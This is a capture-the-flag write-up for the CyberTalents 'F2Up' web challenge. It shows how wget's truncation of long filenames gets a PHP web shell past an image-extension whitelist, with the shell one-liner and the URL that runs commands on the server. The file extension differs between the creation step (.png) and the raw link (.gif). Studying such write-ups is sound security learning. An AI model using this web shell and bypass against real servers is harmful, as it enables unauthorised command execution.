 # F2Up Challenge on CyberTalents

[Challenge Link](https://cybertalents.com/challenges/web/f2up)

**The challenge includes a file upload feature that accepts a URL, then uses the `wget` command on the server to download the image.**

In the beginning, I thought it was an SSRF vulnerability. However, the server validates the URL using a whitelist, allowing only links that end with image extensions such as .jpg, .png, .gif, and .svg.
The server does not return the response content; it simply sends a request using the wget command to download the image.
Since Linux cannot handle file names longer than 255 bytes, attempting to download a file with a longer name causes an error.
Moreover, wget itself cannot handle file names longer than 236 bytes in this context. When that happens, the tool automatically truncates the file name to 236 bytes, as you can see in the screenshot

<img width="1918" height="878" alt="image" src="https://github.com/user-attachments/assets/2868ef43-e60b-41ea-b7be-d6f19d158575" />

---

## Steps to Exploit

1. On your local machine, create a PHP shell with an oversized filename (close to 255 bytes):
   ```bash
   echo '<?php system($_GET["x"]); ?>' > $(python3 -c "print('sh' + 'e'*228 + 'll.php.png')")

2. Push the file to your GitHub repository and get its raw URL.
3. Submit the raw URL to the upload function on the challenge website.
4. After successful upload, access the uploaded file:
`/images/sheeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeell.php?x=ls`



**My raw file link:** `https://raw.githubusercontent.com/k7edr0x/F2Up/refs/heads/main/sheeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeel.php.gif`

<img width="1919" height="214" alt="image" src="https://github.com/user-attachments/assets/802c50e9-3e60-4ff4-8522-392b9fb909b5" />



I hope it helps others understand the logic behind the exploitation.  
– [k7edr0x](https://x.com/k7edr0x)








